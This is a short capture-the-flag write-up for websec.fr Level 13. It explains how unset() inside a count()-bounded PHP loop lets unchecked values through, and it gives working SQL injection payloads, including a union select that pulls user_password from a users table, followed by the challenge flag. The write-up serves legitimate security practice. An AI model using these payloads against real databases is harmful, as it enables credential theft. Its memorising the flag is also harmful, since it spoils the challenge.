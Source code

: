 # Level 13

1. First, lets check what is written i-n http://websec.fr/level13/source.php
2. Then we would find out the code below : 
    ```
    for ($i = 0; $i < count($tmp); $i++ ) {
            $tmp[$i] = (int)$tmp[$i];
            if( $tmp[$i] < 1 ) {
                unset($tmp[$i]);
            }
      }
    ```
3. If the value of the array is less than 1, then the function will get rid of it. The main problem is "unset" will decrease the size of array, so count($tmp) will become smaller. That means that the function might not go over the whole array. If the payload is below : 
    ```
    ["table" , "table)) or 1=1; --"]
    ```
    count($tmp) = 2 , $i = 0 
    Then after the function 
    ```
    ["table)) or 1=1ː --"]
    ```
    count($tmp) = 1 , $i = 1
    As you can see, the loop end and with the cute command ~~~
4. So, our mission now is to figure out a perfect payload that can grab the flag out !
    First, we have to check out what kind of tables are there in the database : 
    ```
    user_id   INTEGER PRIMARY KEY,
    user_name TEXT NOT NULL,
    user_privileges INTEGER NOT NULL,
    user_password TEXT NOT NULL
    ```
    Then we would know that we get the data in user_password. I figure out the payload below : 
    ```
    ,,,)) union select 1,2,user_password from users --
    ```
    If you could, please run the function step by step again and you can find out why I write it. Of course we can use Python to get the flag XD 
6. Here is the flag : WEBSEC{SQL_injection_in_your_cms,_made_simple}
